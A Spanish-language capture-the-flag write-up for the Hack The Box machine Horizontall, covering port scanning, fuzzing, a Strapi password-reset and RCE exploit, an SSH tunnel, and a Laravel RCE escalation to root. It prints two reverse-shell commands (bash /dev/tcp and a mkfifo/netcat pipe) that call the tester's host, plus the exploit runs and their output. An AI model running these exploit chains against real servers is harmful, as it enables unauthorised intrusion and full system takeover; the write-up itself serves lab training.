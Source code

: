 ```yaml
---
title: 'CTF - Horizontall WriteUp'
date: '2022-02-09'
tags: ["CTF", "Hacking", "VueJS", "Fuzzing", "Rce", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: '![](/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp)'
---
```


![](/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp)

Hago un escaneo de puertos todos los puertos disponibles con NMAP.


```
nmap -p- -sS -T5 --open -vvv 10.10.11.105 -oG allPorts
```
Me devuelve los puertos 80 y 22 como abiertos y abro en un navegador la siguiente url http://10.10.11.105.

![](/static/images/uploads/ctf-horizontall/image.webp)

Percibo que me encuentro ante una SPA hecha en VueJS. En un inicio, el código fuente de la web está oculto puesto que se carga posteriormente cuando el navegador interpreta Javascript. Utilizando el devtools de Firefox, encuentro los archivos Vue que llaman a la API para recuperar la información.

![](/static/images/uploads/ctf-horizontall/Screenshot\_2-1.webp)

El subdominio que aparece reflejado lo introduzco en mi /etc/hosts con el fin de poder resolver dicha dirección en caso de encontrarme con un virtual hosting.


```
❯ cat /etc/hosts
───────┬─────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼─────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  iocio-virtualbox
   4   │ ::1        localhost ip6-localhost ip6-loopback
   5   │ ff02::1    ip6-allnodes
   6   │ ff02::2    ip6-allrouters
   7   │ 
   8   │ 10.10.11.105    horizontall.htb www.horizontall.htb api-prod.horizontall.htb
```
Realizo fuzzing contra el dominio api-prod.horizontall.htb.


```
 wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://api-prod.horizontall.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://api-prod.horizontall.htb/FUZZ
Total requests: 141708
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================    
000000014:   200        19 L     33 W       413 Ch      "http://api-prod.horizontall.htb/"
000000350:   200        0 L      21 W       507 Ch      "reviews"             
000001895:   200        16 L     101 W      854 Ch      "admin"               
```
Encuentro una ruta interesante en /admin. En ella, aparece un formulario de login de una plataforma denominada Strapi.

![](/static/images/uploads/ctf-horizontall/image-3.webp)

Buscando un poco encuentro la siguiente [vulnerabilidad](https://www.exploit-db.com/exploits/50237) que nos permite resetear la contraseña del usuario. Analizando el script, veo que accediendo a la ruta http://api-prod.horizontall.htb/admin/strapiVersion puedo ver la versión del CMS que está detrás. Eso me sirve para confirmar que la versión *3.0.0-beta.17.4* es vulnerable. Aun así, necesito un usuario válido para poder emplear el script.

Si rellenamos el formulario de "olvidó su contraseña", observamos que hay una fuga de información que no debería existir. **Este tipo de formularios no deberían dar pistas sobre que usuarios existen o cuáles no.**

![](/static/images/uploads/ctf-horizontall/image-5.webp)

Probamos con admin@horizontall.htb y vemos que no pone nada, por lo que asumimos que ese usuario **SI** existe.

Añadimos en el script los campos acordes a nuestro entorno y ejecutamos.


```
❯ python3 password.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'admin' set for user admin@horizontall.htb
```
De esta forma, hemos modificado la contraseña y podemos ejecutar otro tipo de vulnerabilidades que requieren de autenticación previa. Podemos encontrar una vulnerabilidad de ese tipo [aquí](https://www.exploit-db.com/exploits/50239). Nos ponemos en escucha en el puerto 443 con netcat. 


```
nc -lvp 443
```
Modificamos el script para adaptarlo a nuestras necesidades y ejecutamos.


```
python3 rce.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

$ bash -c 'bash -i & /dev/tcp/10.10.14.15/443 0&1'
```
De esta manera, en la consola de netcat, recibimos una reverse shell con la que podemos empezar a escalar privilegios.


```
strapi@horizontall:~$ whoami
strapi
strapi@horizontall:~$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```
Verifico que puertos hay abiertos en el localhost  de la máquina por si hubiese algún servicio oculto ejecutandose.


```
strapi@horizontall:~$ netstat -tulpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN  
...
```
Con un curl, vemos que es una CMS de Laravel. Creamos una clave ssh para poder conectarnos a la máquina estableciendo un túnel entre mi máquina y la máquina vulnerable con tal de poder ver ese puerto oculto en su localhost.


```
ssh -L 80:127.0.0.1:8000 -i strapi_id_rsa strapi@10.10.11.105
```
![](/static/images/uploads/ctf-horizontall/image-6.webp)

Navegando un poco, encontramos un [exploit](https://www.exploit-db.com/exploits/49424) de la versión de Laravel que está siendo ejecutada en la máquina. Comprobamos que funciona con un 'whoami'.


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'whoami'
Exploit...
root
```
Una vez verificado, nos ponemos en escucha con netcat.


```
nc -lvp 443
```
Y nos mandamos una reverse shell con netcat versión antigua (la que tiene la máquina instalada).


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&1|nc 10.10.14.15 443 /tmp/f'
```
Recibimos la shell en nuestro equipo y terminamos con esta máquina.


```
❯ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from horizontall.htb [10.10.11.105] 38560
# whoami
root
# cat /root/root.txt
7360xxxxxxxxxxxxxxxxxxx

```
